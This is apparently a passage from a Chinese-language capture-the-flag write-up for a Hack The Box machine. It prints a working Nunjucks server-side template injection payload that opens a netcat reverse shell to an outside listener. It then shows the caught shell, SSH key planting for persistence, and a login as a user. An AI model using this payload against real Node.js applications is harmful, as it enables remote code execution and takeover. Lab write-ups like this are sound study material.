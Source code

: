 > [NUNJUCKS(NodeJS) SSTI vulnerability](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

模板注入反弹shell

```bash
# payload:{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 4444 >/tmp/f')\")()}}

nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.122] 49368
sh: 0: can't access tty; job control turned off
$ pwd
/var/www/store.nunchucks
$ cd ~
$ ls
user.txt

# 获取sshshell
$ mkdir .ssh
$ cd .ssh
$ echo id_rsa.pub > authorized_keys

ssh david@10.10.11.122                                                                          
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)                                   

 * Documentation:  https://help.ubuntu.com                                                          
 * Management:     https://landscape.canonical.com                                                  
 * Support:        https://ubuntu.com/advantage                                                     

  System information as of Fri 11 Feb 01:11:31 UTC 2022                                             

  System load:             0.55                                                                     
  Usage of /:              48.8% of 6.82GB                                                          
  Memory usage:            45%                                                                      
  Swap usage:              0%                                                                       
  Processes:               270                                                                      
  Users logged in:         0                                                                        
  IPv4 address for ens160: 10.10.11.122                                                             
  IPv6 address for ens160: dead:beef::250:56ff:feb9:19d7                                            

10 updates can be applied immediately.                                                              
To see these additional updates run: apt list --upgradable                                          

The list of available updates is more than a week old.                                              
To check for new updates run: sudo apt update
david@nunchucks:/tmp$ id
uid=1000(david) gid=1000(david) groups=1000(david)
```